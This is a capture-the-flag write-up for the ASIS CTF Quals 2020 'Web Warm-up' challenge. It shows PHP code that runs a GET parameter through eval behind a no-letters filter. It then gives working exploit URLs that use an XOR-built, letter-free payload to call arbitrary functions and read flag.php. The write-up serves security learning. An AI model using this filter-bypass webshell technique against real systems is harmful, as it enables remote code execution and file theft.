 # ASIS CTF Quals 2020 – Web Warm-up

* **Category:** web
* **Points:** 33

## Challenge

> Warm up! Can you break all the tasks? I'll pray for you!
> 
> read flag.php
> 
> Link: http://69.90.132.196:5003/?view-source

## Solution

You have to read the `flag.php` file. Connecting to the URL you can see the following source code.

```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
}
```

There is an `eval` execution over the `warmup` GET parameter, but this parameter is checked in a very strict way, so there is no possibility to invoke functions directly.

Luckily, some techniques to bypass this kind of checks exist and [I've used them before](https://github.com/m3ssap0/CTF-Writeups/blob/b83e31b155a13d642e527968a9375c295c6a6977/Inferno%20CTF%202019/Dank%20PHP/README.md).

The best way to attack the endpoint is to read another HTTP GET parameter, with non-alfanumeric name, e.g. `_`.

I found two interesting websites:
* [Bypass WAF - Php webshell without numbers and letters](https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/);
* [`preg_match` Code Execution](https://ctf-wiki.github.io/ctf-wiki/web/php/php/#preg_match-code-execution).

In the second website, there is the same scenario of the challenge, so I used it to craft my payload.

Using bitwise XOR operation in PHP, you can craft `_GET` string using non-alfanumeric chars and assign this value to a variable with a non-alfanumeric name.

```php
$_="`{{{"^"?<>/"; // This is: "_GET" string.
```

Then you can specify the execution of the content of a GET parameter with the following code.

```php
${$_}[_]();       // This is $_GET[_]()
```

So the payload that will be executed by the `eval` instruction will be the following.

```php
$_="`{{{"^"?<>/";${$_}[_]();
```

Using a payload like the following, will let you to execute the `phpinfo` page.

```
http://69.90.132.196:5003/?warmup=$_=%22`{{{%22^%22?%3C%3E/%22;${$_}[_]();&_=phpinfo
```

The complete payload is the following.

```
http://69.90.132.196:5003/?warmup=$_=%22`{{{%22^%22?%3C%3E/%22;$_0=${$_}[_](${$_}[__]);${$_}[___]($_0);&_=file_get_contents&__=flag.php&___=var_dump
```

It can be composed step by step.

```php
$_="`{{{"^"?<>/";          // This is _GET string representation composed before.
$_0=${$_}[_](${$_}[__]);   // This is $_0 = $_GET[_]($_GET[__]) and it is used to perform: file_get_contents("flag.php")
${$_}[___]($_0);           // This is $_GET[___]($_0) and it is used to perform: var_dump($_0)
```

The result of the attack will be the following.

```
string(46) "<?php
$flag = "ASIS{w4rm_up_y0ur_br4in}";
?>"
```